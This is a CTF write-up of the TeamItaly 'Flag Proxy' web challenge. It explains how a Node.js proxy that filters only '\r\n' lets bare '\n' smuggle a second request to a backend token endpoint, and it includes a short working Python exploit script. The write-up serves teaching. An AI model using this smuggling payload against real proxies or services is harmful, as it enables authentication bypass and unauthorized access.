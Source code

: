 ```yaml
---
date: 2022-09-08T00:00:00+01:00
title: TeamItaly CTF 2022 - Flag Proxy
summary: Writeup for Flag Proxy web challenge of TeamItaly CTF 2022
categories: ["web"]
difficulty: "easy"
tags: ["Request Smuggling", "Node.js", "Express.js"]
showHero: false
---
```


# TeamItaly CTF 2023 - Flag Proxy

> **Description:** I just added authentication to my flag service (server-back) using a proxy (server-front), but a friend said it's useless...  
> **Site:** [http://flag-proxy.challs.teamitaly.eu](http://flag-proxy.challs.teamitaly.eu)  
> **Author:** @Giotino

The challenge is based on a Node.js web application powered by Express.js. Two endpoints are provided:
- `/flag`: Returns the flag when accessed with a valid token.
- `/add-token`: Adds a token to the backend's allowed list if the correct `auth` secret is provided.

To retrieve the flag, the client must send a request to `/flag` with a query parameter `?token`. This token is then passed as the `Authorization` header to the backend, and it must match one of the values in the `tokens[]` array. New tokens can be added via the `/add-token` endpoint by providing:
- `?token`: the token to add.
- `?auth`: an authentication parameter.

At first glance, the challenge appears secure. However, we see that in the frontend proxy server, `http-client.js`, on [line 55-58](https://github.com/TeamItaly/TeamItalyCTF-2022/blob/master/FlagProxy/src/server-front/http-client.js#L55-L58) it blocks headers containing `\r\n` to prevent HTTP Request Smuggling. However, it fails to sanitize standalone `\n` characters.  
This allows smuggling requests via `\n` line endings in the `Authorization` header. Moreover, the backend's `/add-token` endpoint does not enforce the `auth` parameter check when accessed directly. Thus, smuggling a request to this endpoint allows adding arbitrary tokens without the secret.

<img src="./img/smuggle1.png">

<img src="./img/smuggle2.png">

It's working! Now, lets smuggle another request to the `/add-token` endpoint with an arbitrary token, to be able to write our token inside `tokens[]` array, successfully bypassing frontend proxy server checks, and later getting the flag:

```python
import requests

url = "http://flag-proxy.challs.teamitaly.eu/flag"
token = "httpsmugglingiscool"
smuggle = f"SMUGGLE\nContent-Length: 0\nConnection: keep-alive\n\nGET /add-token?token={token} HTTP/1.0"

req1 = requests.get(url, params={"token": smuggle})
#print(req1.text)

req2 = requests.get(url, params={'token': token})
print(req2.json()['body'])
```

Flag: `flag{sanity_check}`
